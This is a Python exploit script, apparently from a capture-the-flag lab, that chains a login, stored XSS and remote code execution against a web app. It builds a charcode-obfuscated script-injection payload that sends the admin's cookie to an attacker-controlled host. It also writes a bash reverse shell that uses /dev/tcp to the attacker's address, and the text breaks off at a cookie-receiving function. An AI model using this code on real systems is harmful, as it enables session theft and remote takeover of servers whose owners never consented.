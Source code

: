```py
    url = "http://%s:8000/login" %rhost
    headers = {"User-Agent": "Linux", "Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "RickA", "password": "nevergonnagiveyouup"}
    login = r.post(url, headers=headers, data=data, proxies=proxies)
    if "Orland Wilkinson" in login.text:
        print("[+] Login OKKK!! [+]")
    else:
        print("[+] Something went wrong with the login, check it again !! [+]")
        exit

# Let's built our js malicious
def buildPayload(lhost):
    print("[+] Let's Build Our Payload !!! [+]")
    target = "document.write('<script src=\"http://%s/0x4rt3mis.js\"></script>');" %lhost
    result = ""
    for c in target:
        result += str(ord(c))
        result += ","
    result = result.removesuffix(",")
    global payload
    payload = "<img src=\"/><script>eval(String.fromCharCode(%s))</script>\" />" %result
    print("[+] Payload Built !!! [+]")
    
# Build the XSS to make the things for us
def buildJS(lhost):
    print("[+] Let's build our JS to get the Admin COOKIE !! [+]")
    pay = "function getAdmin() {\n"
    pay += "    var req1=new XMLHttpRequest(); \n"
    pay += "    req1.open('GET', '#admin' , true); \n"
    pay += "    req1.onreadystatechange = function () { \n"
    pay += "            if (req1.readyState === req1.DONE) {\n"
    pay += "                    if (req1.status === 200) { \n"
    pay += "                            var req2=new XMLHttpRequest(); \n"
    pay += "                            req2.open('GET', 'http://%s:9090?xss=' + encodeURI(document.getElementsByName(\"cookie\")[0].value), true);\n" %lhost
    pay += "                            req2.send(); \n"
    pay += "                            }\n"
    pay += "                    }\n"
    pay += "            }; \n"
    pay += "    req1.send();\n"
    pay += "}\n"
    pay += "getAdmin();\n"
    f = open("0x4rt3mis.js", "w")
    f.write(pay)
    f.close()

# Let's build our shell script to get the reverse shell
def buildSHELL(lhost,lport):
    print("[+] Let's build our reverse bash shell !! [+]")
    os.system("echo '#!/bin/bash\nbash -i >& /dev/tcp/%s/%s 0>&1' > shell" %(lhost,lport))
    print("[+] Payload Built! [+]")
        
# Now Let's trigger the XSS on the server
def sendXSS(rhost,payload):
    print("[+] Let's Send the XSS To the Server !!! [+]")
    url = "http://%s:8000/agent/addNote" %rhost
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Content-Type": "application/x-www-form-urlencoded"}
    data = {"uuid": "8dd841ff-3f44-4f2b-9324-9a833e2c6b65", "body": "%s" %payload}
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    
# Let's receive the cookie from the XSS
def receiveCookie():
```